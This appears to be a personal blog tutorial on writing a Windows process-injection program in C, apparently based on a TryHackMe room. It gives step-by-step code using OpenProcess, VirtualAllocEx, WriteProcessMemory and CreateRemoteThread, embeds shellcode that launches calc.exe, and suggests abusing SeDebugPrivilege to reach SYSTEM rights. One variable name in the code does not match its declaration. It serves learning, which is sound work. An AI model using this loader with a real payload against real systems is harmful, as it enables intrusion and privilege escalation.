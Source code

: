 ```yaml
---
layout: default
title: Writing a simple malware in C
date: 2025-05-09 19:36 +0200
categories: [c]
---
```


# Writing a Simple Process Injection Malware in C

Based on Abusing Windows Internals from THM

 We have following algorithm :

![malware diagram]({{ site.baseurl }}assets/img/mal.png)


Firs we need load libraries, stdio for input/output and windows for windows api.

```c
#include <stdio.h>
#include <windows.h>
```

Then simple create main (i will create with command line argument procession)

```c
int main(int arg_count, char * arg_array[]){}
```

Then define variables

```c
HANDLE proc_handle;
PVOID remote_mem;
```

And initiate shellcode(it just call calc in windows)

```C
unsigned char shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

```



Next step - create handle to chosen process

```c
proc_handle = OpenProcess(
PROCESS_ALL_ACCESS,    // Access rights to process
FALSE,                 // Inheriting of Handle
atoi(args_list[1])     // Process ID converted to int
);
```

Above you can see - victim process ID is passed as command line argument.
 

Next - allocate memory. There are some naming logic in winapi:

   1. func - assume it is default name

   2. funcA - same function, but to work with ASCII symbols    

   3. funcW - same function, but to work with wide symbols(unicode)

   4. funcEx  - same function, but to work with extended functional

And the point that VirtualAlloc - will only allocate memory in your own process, and to use other we need to call VirtualAllocEx.

```C
remote_mem = VirtualAllocEx(
    proc_handle,             // Handle to target process
    NULL,                    // Location in memory, NULL - autolocate
    sizeof(shellcode),       // Size of required memory
    (MEM_RESERVE|MEM_COMMIT),// Allocation type - both reserve and real commit
    PAGE_EXECUTE_READWRITE   // Memory protect rules
);
```

Now we should have oportunity to write in process memory.

```C
WriteProcessMemory(
    proc_handle,             // Handle to target process
    remote_mem,              // Pointer to memory
    shellcode,               // Pointer to buffer which should be writed
    sizeof(shellcode),       // Size of buffer
    NULL                     // Pointer to variable if you want store size
);
```

And finally - execute.

```C
CreateRemoteThread(
    proc_handle,             // Handle to target process
    NULL,                    // Security attributes, NULL for default
    0,                       // Stack size for new thread, 0 for default
    (LPTHREAD_START_ROUTINE)remote_mem,// Pointer to function converted to format
    NULL,                    // Pointer to function parameters
    0,                       // Creation flags, 0 for immediately
    NULL                     // Pointer to variable to store ID of thread
);
```

As for the application, the most popular situation is when you have privilege SeDebugPrivilege , which allows you to write/read to any process, you can write to the process owned by SYSTEM and thus get the highest possible rights in the system. Unfortunately, all modern antiviruses will notice this, but to learn to run, you need to learn to walk.

**_To be continued_**


<a href="/">Back to Home</a>
